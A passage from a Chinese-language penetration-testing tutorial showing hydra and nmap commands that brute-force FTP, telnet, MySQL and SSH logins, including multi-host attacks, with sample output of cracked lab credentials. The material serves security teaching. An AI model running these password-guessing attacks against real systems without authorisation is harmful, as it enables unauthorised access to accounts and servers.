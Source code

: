 ### 破解ftp/telnet
与ssh类似
```sh
$ hydra 192.168.20.9 ftp -L user.txt -P pwd.txt -t 4
$ hydra 192.168.20.9 telnet -L user.txt -P pwd.txt -t 4
```

### 破解MySQL数据库
```sh
$ hydra -L user.txt -P pwd.txt -t 4 127.0.0.1 mysql
$ hydra -L user.txt -P pwd.txt -t 4 mysql://127.0.0.1:3306
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-22 15:55:50
[DATA] max 4 tasks per 1 server, overall 4 tasks, 30 login tries (l:5/p:6), ~8 tries per task
[DATA] attacking mysql://127.0.0.1:3306/
[3306][mysql] host: 127.0.0.1   login: admin   password: admin
[3306][mysql] host: 127.0.0.1   login: root   password: 123456
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-22 15:55:51

```
ssh、ftp、telnet和mysql协议也可以使用nmap工具破解：
nmap暴力破解脚本：[https://nmap.org/nsedoc/categories/brute.html](https://nmap.org/nsedoc/categories/brute.html)
```sh
$ nmap --script ftp-brute -p 21 <host>
$ nmap --script ssh-brute -p 22 <host>
$ nmap --script mysql-brute -p 3306 <host>
```

### 批量破解多个主机：`-M`参数
创建主机字典：
```sh
$ cat host.txt
192.168.20.8
192.168.20.9
```

```sh
$ hydra -L user.txt -P pwd.txt -t 4 -M host.txt -f ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-21 23:59:03
[DATA] max 4 tasks per 2 servers, overall 8 tasks, 30 login tries (l:5/p:6), ~8 tries per task
[DATA] attacking ssh://(2 targets):22/
[22][ssh] host: 192.168.20.9   login: root   password: 12345678
[22][ssh] host: 192.168.20.8   login: root   password: 12345678
2 of 2 targets successfully completed, 2 valid passwords found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-21 23:59:17

```

将破解日志保存到文件中：
```sh
$ hydra -L user.txt -P pwd.txt -t 4 -vV -M host.txt -o results.log ssh
```





